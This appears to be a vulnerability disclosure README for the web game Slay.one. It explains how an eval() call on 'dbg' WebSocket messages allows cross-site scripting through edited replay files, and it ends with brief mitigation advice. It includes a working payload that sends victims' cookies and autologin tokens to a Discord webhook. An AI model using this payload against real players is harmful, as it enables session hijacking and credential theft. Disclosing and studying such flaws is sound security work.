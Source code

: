 
<div align="center">
  <img src="./imgs/logo.png" alt="Logo" />
</div>

# Exploit Report 'dbg' 
---
## Introduction 
[Slay.one](https://slay.one) is a popular web-based, top-down pixel shooter game. Despite its engaging gameplay, it suffers from a serious vulnerability that exposes users to cross-site scripting (XSS) attacks. This report outlines the nature of the vulnerability, how it can be exploited, and recommendations for mitigating the risk.

## Proof of Concept (PoC)
The vulnerability resides in the `client-bundle.js` file, specifically in the code responsible for processing WebSocket messages from the server. The problematic section of code is as follows:

```javascript
else if ("dbg" === arr[0]) // 'dbg' packet sent from the server
    try {
        eval(msg.substring(4)); // eval() allows arbitrary code execution
    } catch (e) {}
```

Here, the use of `eval()` poses a critical security risk, as it allows the execution of arbitrary JavaScript code passed within WebSocket messages.

### Exploitation
Attackers can exploit this vulnerability using Slay.one's replay feature, which lets users download and upload game replays. A replay file can be modified to include malicious code that executes in the victim’s browser when the file is uploaded and viewed.

### Proof of Concept Code
The following example demonstrates how an attacker could edit a replay file to exploit this vulnerability. When the replay is loaded, the malicious code steals the user’s cookies and authentication tokens, sending them to a Discord webhook.

#### Malicious Code Example
```javascript
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        content: 'Stolen Cookies: ' + document.cookie + 
                 ' Login Token: ' + localStorage.autologin
    })
});
```

### Potential Effects
Exploiting this vulnerability allows attackers to:
- **Hijack user sessions**: Stolen cookies can be used to impersonate users.
- **Steal sensitive information**: Attackers can access authentication tokens stored in `localStorage`.
- **Execute arbitrary code**: This can lead to additional compromises, including malware delivery or unauthorized actions.

## Recommendations for Mitigation
To address this vulnerability and improve overall security, the following measures are recommended:

- **Eliminate `eval()` usage**: 
- **Validate and sanitize inputs**
- **Implement Content Security Policy (CSP)**
- **Enhance WebSocket security**: 

---

By implementing these measures, Slay.one can significantly reduce the risk of XSS attacks, providing a safer and more secure experience for its players.
